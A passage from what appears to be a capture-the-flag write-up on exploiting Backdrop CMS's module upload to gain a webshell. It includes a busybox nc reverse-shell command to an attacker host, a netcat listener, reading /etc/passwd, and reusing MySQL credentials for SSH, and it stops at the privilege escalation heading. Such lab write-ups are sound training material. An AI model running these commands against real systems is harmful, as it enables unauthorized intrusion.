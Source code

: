 >[!info] Exploit breakdown and vulnerability explanation
>The root of the vulnerability is how backdrop allows authenticated users with specific permissions/roles (like admin) to manually install modules via a .tar file upload or other accepted archive formats. It **does not** perform any sanitization or checks for malicious code, it **trusts** that because an admin installed it, it's valid.
>
> The exploit creates a module that follows the required structure (shell.info and shell.php files in this case), zips it, and uploads it. Once the attacker accesses the module in their browser, the PHP code immediately gets executed on the server-side, giving them a webshell. 

Let's use `searchsploit` to find that specific exploit and copy it to our working directory:

![[Pasted image 20250330181848.png]]

The only argument required is the URL. After the script is done executing, we're given a link to the malicious module's PHP site, but when we go there, it doesn't seem to exist. This is because uploaded modules have to be in certain archive formats:

![[Pasted image 20250330190335.png]]

Luckily, the script generated the malicious files, not just an archive of them, so we can just run `tar cf shell.tar shell` to create the correct archive, and then upload it. After doing so, we're presented with a message saying that the installation was successful:

![[Pasted image 20250330190620.png]]

Now we go to /modules/shell/shell.php and we get our webshell:

![[Pasted image 20250330190904.png]]

Lastly, we set up our listener with `nc -lvnp <port>` and execute a reverse shell payload on the webshell like `busybox nc <ip address> <port> -e sh`:

![[Pasted image 20250330191348.png]]

Great, we're now logged in as www-data. 

Earlier we found MySQL creds for the root user, but it turned out to be a rabbit hole, as there was nothing of use stored there. 

Here's what we see in the **/etc/passwd** file, filtering for users that have a login shell:

![[Pasted image 20250330213633.png]]
Two users, jobert and johncusack. We can try reusing root's mysql credentials for these users and log in through SSH. They ended up working for johncusack:

![[Pasted image 20250330213800.png]]

Now on to root!

<br>
<br>
# **Privilege Escalation**  
`sudo -l` outputs the following:
